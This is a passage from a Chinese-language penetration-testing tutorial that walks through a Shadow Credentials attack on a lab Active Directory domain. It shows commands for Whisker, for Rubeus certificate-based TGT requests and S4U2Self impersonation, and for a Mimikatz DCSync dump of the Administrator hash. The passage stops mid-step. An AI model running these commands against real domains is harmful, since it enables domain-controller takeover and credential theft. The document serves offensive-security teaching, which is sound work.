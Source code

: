 （1）执行以下命令，通过 Whisker 的 `add` 命令向域控制器的 `msDS-KeyCredentialLink` 属性添加 Shadow Credentials 

```console
C:\Users\Marcus\Desktop> Whisker.exe add /target:DC01$ /domain:pentest.com /dc:DC01.pentest.com
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427135940527.png)

通过 `list` 命令可以列出目标对象的 `msDS-KeyCredentialLink` 属性的所有条目，如下图所示。

```console
C:\Users\Marcus\Desktop> Whisker.exe list /target:DC01$ /domain:pentest.com /dc:DC01.pentest.com
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427140123948.png)

（2）Whisker  `add` 命令的输出中提供了 Rubeus 命令，使用该命令可以使用基于证书的身份验证请求 TGT 票据。这里我们在 Whisker 提供的 Rubeus 命令后面加上了 `/ptt`，以将请求到的 TGT 传递到内存中。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:DC01$ /certificate:<Base64Certificate> /password:"AYOjT1jNMyrxNAss" /domain:pentest.com /dc:DC01.pentest.com /getcredentials /show /ptt
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427142210115.png)

执行 `klist` 命令可以看到，当前机器中已经缓存了域控制器的 TGT 票据，如下图所示。

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427142429793.png)

由于域控制器账户拥有所需特权，我们可以通过 Mimikatz 执行 DCSync 来导出域用户哈希，如下图所示。

```console
C:\Users\Marcus\Desktop> mimikatz.exe "lsadump::dcsync /domain:pentest.com /user:PENTEST\Administrator" exit
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427142500059.png)

此外，我们可以通过 Kerberos 的 S4U2Self 扩展协议，使用已获取的域控 TGT 为域管理员用户申请针对域控上其他服务的的 ST 票据。这里我们请求的是域控制器的 CIFS 服务，相关命令如下：

```console
C:\Users\Marcus\Desktop> Rubeus.exe s4u /self /impersonateuser:PENTEST\Administrator /altservice:CIFS/DC01.pentest.com /dc:DC01.pentest.com /ptt /ticket:<Base64EncodedTicket>
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427142657658.png)

执行 `klist` 命令可以看到，当前机器中已经缓存了域管理员的 TGT 票据，该票据可以用来访问域控制器的 CIFS 服务，如下图所示。

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427142717172.png)

此时，我们可以使用标准用户帐户远程访问域控制器的共享资源，如下图所示：

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220427142734492.png)

如果想要删除添加到目标对象 `msDS-KeyCredentialLink` 属性的密钥凭据，可以执行以下命令。
